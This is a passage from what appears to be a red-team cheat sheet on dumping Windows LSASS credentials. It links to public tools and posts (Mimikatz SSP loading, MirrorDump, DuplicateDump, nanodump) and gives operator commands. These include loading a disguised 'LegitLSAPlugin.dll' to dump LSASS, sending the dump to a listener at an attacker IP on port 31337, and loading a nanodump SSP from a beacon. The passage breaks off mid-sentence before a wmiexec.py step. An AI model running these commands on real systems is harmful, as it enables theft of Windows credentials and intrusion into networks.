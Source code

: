 


## Load SSP

- [https://blog.xpnsec.com/exploring-mimikatz-part-2/](https://blog.xpnsec.com/exploring-mimikatz-part-2/)
- [https://www.programmersought.com/article/65604621980/](https://www.programmersought.com/article/65604621980/)
- [https://russianblogs.com/article/42611473286/](https://russianblogs.com/article/42611473286/)
- [https://xakep.ru/2023/03/15/windows-password/](https://xakep.ru/2023/03/15/windows-password/)
- [https://github.com/jas502n/mimikat_ssp](https://github.com/jas502n/mimikat_ssp)



### SspirConnectRpc

- [https://itm4n.github.io/ghost-in-the-ppl-part-2/](https://itm4n.github.io/ghost-in-the-ppl-part-2/)
- [https://github.com/itm4n/Pentest-Windows/blob/main/NdrServerCallAll/DuplicateHandle.cpp](https://github.com/itm4n/Pentest-Windows/blob/main/NdrServerCallAll/DuplicateHandle.cpp)



### MirrorDump

- [https://github.com/CCob/MirrorDump](https://github.com/CCob/MirrorDump)
- [https://github.com/snovvcrash/MirrorDump](https://github.com/snovvcrash/MirrorDump)

```
Cmd > .\MirrorDump.exe -f "NotLSASS.zip" -d "LegitLSAPlugin.dll" -l 1073741824
Cmd > .\MirrorDump.exe --parse

$ python3 MirrorDump.py 0.0.0.0 31337 --md5 --parse
Cmd > .\MirrorDump.exe --host 10.10.13.37 --port 31337
```



### DuplicateDump

- [https://github.com/Hagrid29/DuplicateDump](https://github.com/Hagrid29/DuplicateDump)



### nanodump

- [https://www.coresecurity.com/core-labs/articles/nanodump-red-team-approach-minidumps](https://www.coresecurity.com/core-labs/articles/nanodump-red-team-approach-minidumps)
- [https://github.com/helpsystems/nanodump](https://github.com/helpsystems/nanodump)

```
Cmd > .\load_ssp.x64.exe C:\Windows\Temp\nanodump_ssp.x64.dll
beacon> load_ssp
```

Do it automatically with `wmiexec.py` magic (using [this](https://gist.github.com/mildred/67d22d7289ae8f16cae7) Python HTTP server with PUT support):

